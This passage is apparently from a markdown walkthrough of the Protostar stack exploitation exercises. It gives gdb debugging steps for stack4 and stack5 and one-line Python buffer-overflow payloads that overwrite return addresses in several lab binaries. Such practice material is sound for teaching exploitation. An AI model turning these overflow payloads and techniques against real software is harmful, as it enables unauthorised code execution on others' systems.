 >     `> python print '------------------------'`
>     `> info registers`   #prints registers
>     `> python print '------------------------'`
>     `> x/24wx $esp`      #prints stack
>     `> python print '------------------------'`
>     `> x/5i $eip`        #prints instructions
>     `> python print '------------------------'`
>     `> end`
>
> 16.  Set breakpoint after user input:
>      `(gdb) break *(main+21)`
>
> 17.  `(gdb) run < /tmp/arg`
>
> 18.  Should be at instruction: `<main+21>:  leave`
>
> 19.  `(gdb) s`
>
> 20.  Observe that you're now in the win function
>      `(gdb) x/i $eip`
>
>      Expected Output:
>       0x80483f4 <win>:	push   ebp




## Stack5: NOP Sled Buffer Overflow
------------------------------------------------------------------------

+ Note that /x90 is the opcode for the NOP (no operation) assembly instruction

[Shellcode]: http://shell-storm.org/shellcode/

[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5

[Detailed]: Step-by-Step
> 1.  $ cd /opt/protostar/bin
>
> 2.  $ gdb stack5
>
> 3.  `(gdb) set disassembly-flavor intel`
>
> 4. Print registers, subset of stack, and upcoming intructions
>    after each step
>
>     `(gdb) define hook-stop`
>     `> python print '------------------------'`
>     `> info registers`   #prints registers
>     `> python print '------------------------'`
>     `> x/24wx $esp`      #prints stack
>     `> python print '------------------------'`
>     `> x/5i $eip`        #prints instructions
>     `> python print '------------------------'`
>     `> end`
>
> 5.  Set breakpoint
>      Use `(gdb) disassemble main` if you want to see
>       what instruction we are breaking one
>
>    + break after user input:
>      `(gdb) break *(main+21)`
>
> 6.  `(gdb) run`
>     You should hit the first breakpoint
>
> 7.  On a separte terminal, run:
>     `python -c "print('A' * 72 + 'BCDE')"`
>

[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M